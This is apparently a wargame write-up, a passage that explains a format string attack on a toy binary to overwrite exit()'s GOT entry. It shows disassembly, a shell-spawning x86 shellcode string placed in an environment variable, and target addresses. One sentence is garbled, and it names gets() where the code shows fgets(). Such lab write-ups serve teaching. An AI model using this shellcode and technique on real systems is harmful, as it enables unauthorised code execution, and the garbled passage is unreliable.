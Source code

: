 
# Overwrite .GOT table again

On this level we are provided with a program which takes a string as input via the **`gets()`** function, in the case of uppercase alphabetic characters these are transformed into lowercase letters before being printed by **`printf()`**.

```
08048444 <main>:
...
804846e:	8d 44 24 28          	lea    eax,[esp+0x28]
8048472:	89 04 24             	mov    DWORD PTR [esp],eax
8048475:	e8 d6 fe ff ff       	call   8048350 <fgets@plt>
804847a:	c7 84 24 8c 00 00 00 	mov    DWORD PTR [esp+0x8c],0x0
...
80484f3:	f2 ae                	repnz scas al,BYTE PTR es:[edi]
80484f5:	89 c8                	mov    eax,ecx
80484f7:	f7 d0                	not    eax
80484f9:	83 e8 01             	sub    eax,0x1
80484fc:	39 c3                	cmp    ebx,eax
80484fe:	72 87                	jb     8048487 <main+0x43>
8048500:	8d 44 24 28          	lea    eax,[esp+0x28]
8048504:	89 04 24             	mov    DWORD PTR [esp],eax
8048507:	e8 34 fe ff ff       	call   8048340 <printf@plt>
```

Since no sanitize takes place on our input and it is handled by printf, we can use a **format string attack**.

???
We notice at the same time that the program will end with an **`exit()`**, the address of the latter is not yet resolved at this stage of the program, so let’s replace the . have a table

```
08048444 <main>:
...
8048513:	e8 58 fe ff ff       	call   8048370 <exit@plt>
```

Let's build our attack.

First we will inject a spawn shell code into an environment variable :

    export SHELLCODE="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

Now let's get the location address of the .GOT exit table & previous ENV var :  

**.GOT** table addr : **`0x80497e0`**  
**ENV** var addr : **`0xffffd885`** / **`4294957189`**  
  
We notice that the address of the ENV is a very large number, we will have to divide the overwrite operation into two parts.
